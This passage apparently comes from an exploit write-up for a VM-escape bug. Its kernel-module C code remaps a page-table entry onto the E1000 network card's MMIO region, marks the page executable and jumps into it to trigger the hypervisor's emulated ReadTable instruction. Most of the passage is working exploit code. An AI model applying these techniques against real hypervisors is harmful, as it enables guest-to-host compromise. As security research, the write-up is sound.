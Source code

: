 ```c
static size_t *to_page_entry(size_t cr3, size_t addr) {
    /* Get the PTE of addr */
    
    size_t idx, i;
    size_t val = cr3;
    for (i = 0; i < 4; i++) {
        val &= (0xfffffffff000UL); // physical address
        val += PAGE_OFFSET;        // alias page
        idx = addr >> (12 + (3 - i) * 9);
        idx &= ((1 << 9) - 1);
        if (i < 3)
            val = *((size_t *)(val + idx * 8));
        else
            return ((size_t *)(val + idx * 8));
    }
    return 0;
}

static ssize_t drv_read(struct file *file, char __user *buf,
			size_t count, loff_t *ppos) {
    // .......omitted....................

    char *code = kmalloc(0x1000, GFP_KERNEL); // [1]
    size_t cr3;

    asm(
        "mov %[val],cr3\r\n;"
        : [val] "=r"(cr3)::
    );

    size_t *ent = to_page_entry(cr3, (size_t)code); // [2]
    size_t *B = to_page_entry(cr3, (size_t)drv_read); // [3]
    *ent = (E1000_MMIO_BASE + 0x5000) | ((*B) & 0xff00000000000fffULL); // [4]
    
    // .......omitted....................
}
```

We first allocate a page called `code` ( [1] ). Then, we use the `to_page_entry` function to get the PTE ( P1 entry ) of `code` ( [2] ) and `drv_read` ( [3] ). We then modify the P1 entry of `code` to `E1000_MMIO_BASE + 0x5000` ( [4] ), so later when we access `code`, we'll be ended up in page `E1000_MMIO_BASE + 0x5000`, the one we just ioremap. The `| ((*B) & 0xff00000000000fffULL` is to mark the PTE's low 12 bits the same as `drv_read`, so kernel will think `code`'s page is executable.

Now we can setup some registers and jump to `code+0x820`, which will trigger `iemOp_ReadTable`:

```c
asm volatile(
        "mov rbx,0x41414141\r\n;" // the Table index
        "mov rcx,%[code]\r\n;" // code+0x820, which will ended up in E1000_MMIO_BASE + 0x5000 + 0x820 == E1000_MANC 
        "call rcx\r\n;" ::[code] "r"(code + 0x820) : "rax", "rbx", "rcx"
);
```
